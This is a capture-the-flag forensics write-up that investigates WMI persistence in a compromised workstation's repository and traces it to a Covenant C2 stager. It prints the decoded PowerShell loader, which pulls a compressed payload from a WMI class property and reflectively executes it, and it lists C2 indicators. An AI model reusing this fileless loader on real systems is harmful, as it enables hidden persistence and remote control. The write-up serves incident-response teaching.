

# Overview
Perseverance was an easy rated forensics challenge from the HTB Business CTF 2022.  

> During a recent security assessment of a well-known consulting company, the competent team found some employees' credentials in publicly available breach databases. Thus, they called us to trace down the actions performed by these users. During the investigation, it turned out that one of them had been compromised. Although their security engineers took the necessary steps to remediate and secure the user and the internal infrastructure, the user was getting compromised repeatedly. Narrowing down our investigation to find possible persistence mechanisms, we are confident that the malicious actors use WMI to establish persistence. You are given the WMI repository of the user's workstation. Can you analyze and expose their technique?

There was no active target for this challenge, but the 5 files seen in the image below were provided to download and we are told they are the WMI repository of a compromised user's workstation.



# Brief Overview of WMI
I wasn't very familiar with WMI before this challenge, apart from random ways to abuse it, but I found [this site](https://netsecninja.github.io/dfir-notes/wmi-forensics/) helpful in understanding it a little better so I'll provide some of its information here as well.

### WMI Terms
- Event Filter - A monitored condition which triggers an Event Consumer
- Event Consumer - A script or executable to run when a filter is triggered
- Binding - Ties the Filter and Consumer together
- CIM Repository - A database that stores WMI class instances, definitions, and namespaces

### WMI Processes
- wmic.exe - Commandline tool for interacting with WMI locally and for remote systems
- wmiprvse.exe - Listening service used on remote systems
- scrcons.exe - SCRipt CONSumer process that spawns child processes to run active script code (vbscript, jscript, etc)
- mofcomp.exe - MOF file compiler which inserts data into the repository
- wsmprovhost.exe - present on remote system if PSRemoting was used

### WMI Files
- C:\\Windows\\System32\\wbem\\Repository - Stores the CIM database files 
	- OBJECTS.DATA - Objects managed by WMI
	- INDEX.BTR - Index of files imported into OBJECTS.DATA
	- MAPPING\[1-3].MAP - correlates data in OBJECTS.DATA and INDEX.BTR

### Investigative commands
- Get-WMIObject -Namespace root\Subscription -Class __EventFilter
- Get-WMIObject -Namespace root\Subscription -Class __EventConsumer
- Get-WMIObject -Namespace root\Subscription -Class __FilterToConsumerBinding


# Starting the Investigation
As we have the compromised user's WMI repository, we should be able to parse it and extract information about what types of commands were being run.  The post mentioned above also talks about a tool from Mandiant called "[python-cim](https://github.com/mandiant/flare-wmi/tree/master/python-cim)", but I had issues getting it to work given that it appears to have been written for Python2 instead of Python3 and some of the libraries used are either no longer available or don't function the same anymore.  Anyway, I found another repository called [WMI_Forensics](https://github.com/davidpany/WMI_Forensics) with a script that did correctly parse our files.  I used the command below to run the PyWMIPersistenceFinder.py script, which is described as locating potential WMI persistence by keyword searching the OBJECTS.DATA file individually instead of using the entire WMI repository.

```bash
python2 WMI_Forensics/PyWMIPersistenceFinder.py OBJECTS.DATA 
```


As seen in the image above, the script located a specific WMI consumer named "Windows Update" that was running an encoding PowerShell command.  A pretty suspicious start.  This command decodes to the commands below, though I have cleaned it up onto multiple lines and added comments for readability.

```powershell
# Read in the contents of a WMI Class' Property value
$file = ([WmiClass]'ROOT\cimv2:Win32_MemoryArrayDevice').Properties['Property'].Value;
# Set-Varable "o" to be a new MemoryStream
sv o (New-Object IO.MemoryStream);
# Set-Variable "d" to be the Base64-decoded and decompressed version of that data
sv d (New-Object IO.Compression.DeflateStream([IO.MemoryStream][Convert]::FromBase64String($file),[IO.Compression.CompressionMode]::Decompress));
# Set-Variable "b" to be a new byte array 1024 bytes long
sv b (New-Object Byte[](1024));
# Set-Variable "r" to be 1024
sv r (gv d).Value.Read((gv b).Value,0,1024);
# Loop over the content in "d" 1024 bytes at a time and write it to  the MemoryStream in "o"
while((gv r).Value -gt 0)
{
	(gv o).Value.Write((gv b).Value,0,(gv r).Value);
	sv r (gv d).Value.Read((gv b).Value,0,1024);
}
# Reflectively load the content in "o" and run it with Invoke()
[Reflection.Assembly]::Load((gv o).Value.ToArray()).EntryPoint.Invoke(0,@(,[string[]]@()))|Out-Null
```

These commands appear to be reading in the Property value of the ROOT\\cimv2:Win32_MemoryArrayDevice WMI class and using multiple functions to convert this data into another format before it reflectively loads and runs it.


# Using PowerShell to help
Now that we have a better idea of what the command is doing, we need to know what information is stored in the "Property" variable so we can understand what is going to be invoked.  The easiest way I found to do this is to simply copy the WMI repository files over to a Windows VM and overwrite the contents of C:\\Windows\\System32\\wbem\\Repository, after backing up the original of course.

> NOTE:  For an general opsec in CTFs and especially in real investigations, you should use a VM that you can easily reset when done and is not connected to your main network (if connected to the internet at all).

I copied them to an instance of [FlareVM](https://github.com/mandiant/flare-vm) and ran the command below to confirm it is working.  In this case, we get the same consumer named "Windows Update" with the encoding command, so it appears to be working correctly.


Now comes the part where we let PowerShell do a lot of the hard work.  I started with copying the first line of the decoded PowerShell command into our window and letting it copy the WMI class' value to $file.


This output looks like another Base64 encoded command, but this one does not decode to a plain string.  This is because the rest of the original command has not decompressed it yet.  I took the rest of the command, minus the last line that will run it, and copied it into our terminal.

```powershell
$file = ([WmiClass]'ROOT\cimv2:Win32_MemoryArrayDevice').Properties['Property'].Value;
sv o (New-Object IO.MemoryStream);
sv d (New-Object IO.Compression.DeflateStream([IO.MemoryStream][Convert]::FromBase64String($file),[IO.Compression.CompressionMode]::Decompress));
sv b (New-Object Byte[](1024));
sv r (gv d).Value.Read((gv b).Value,0,1024);
while((gv r).Value -gt 0)
{
	(gv o).Value.Write((gv b).Value,0,(gv r).Value);
	sv r (gv d).Value.Read((gv b).Value,0,1024);
}
```

After pasting this into the terminal, I 1) inspected the "o" variable to see its value was set to a System.IO.MemoryStream as expected, 2) saved that value to the variable $payload, and 3 finally inspected the value of $payload's value to see the stream is currently storing 11776 bytes of data.  This shows we have stored something in the payload variable, but we don't know what it is yet.


# Extracting the payload
Next, we want to extract the data from this MemoryStream and write it to a file so we can inspect it further.  I found [this StackOverflow post](https://stackoverflow.com/questions/15002337/how-can-i-save-a-stream-to-disk-in-powershell) to be helpful in setting up a FileStream and StreamWriter for this part.

```powershell
# New FileStream to some file
$fs = new-object IO.FileStream("c:\users\flikk\desktop\payload.exe", [IO.FileMode]::Append)
# Write the MemoryStream value to the FileStream defined above
$payload.Value.WriteTo($fs)
# Close the FileStream to save the content of the new file
$fs.Close()
```

Running the commands above allows us to write the payload to a file at C:\\users\\flikk\\desktop\\payload.exe, which appears to be the same length as the MemoryStream seen earlier.


We don't necessarily know what type of file it is, even though I saved it as an EXE.  The file could be copied back over to a Linux machine and run the `file` command on it, but the [PEStudio](https://www.winitor.com/) tool that comes with FlareVM can also be used for this step.  


Right away we have two indicators that this appears to be a .NET application, which means we can just open it in a tool like [dnSpy](https://github.com/dnSpy/dnSpy) and view the decompiled code.

# Viewing the file in dnSpy
In dnSpy we see the application has been decompiled successfully, the file itself appears to have a random name of 5mqms3q1.zci (which is suspicious on its own), and the entry point appears to be named "GruntStager".


A quick Google search for this name shows it was likely generated by the [Covenant C2](https://github.com/cobbr/Covenant) framework.


This isn't really relevant to the challenge at this point, but it's good to know where a payload came from to be able to extract other potential IoCs (Indicators of Compromise).  In that same vein, before moving on to the last step and getting the flag, here is an example of the types of IoCs we could find.  The screenshot below shows some of the ExecuteStager function and includes 3 different Base64 encoded strings that are used somewhere else in the application.


To make the process easy, we can use https://dotnetfiddle.net/ to run C# code in the browser and see what this section of code is doing.  I copied the section of code containing the encoding strings, along with any "using" statements at the top to ensure any necessary libraries were included.  Finally, I added a few extra statements at the end to loop through the items of each list used and print them to the screen on a new line.


This outputs some interesting information for an investigation that could be used to hunt for other malicious activity.

- User-Agent
	- Mozilla/5.0 (Windows NT 6.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2228.0 Safari/537.36
- Cookie
	- ASPSESSIONID={GUID}; SESSIONID=1552332971750
- Potential Endpoints
	- /en-us/index.html  
	- /en-us/docs.html  
	- /en-us/test.html

Continuing on with the inspection of this application, the main GruntStager class includes multiple functions related to executing a stager, but the top of one section includes a separate Base64 encoded-string that isn't used until later in the function.


Extracting the Base64 strings highlighted above and decoding them gives us the flag for this challenge.

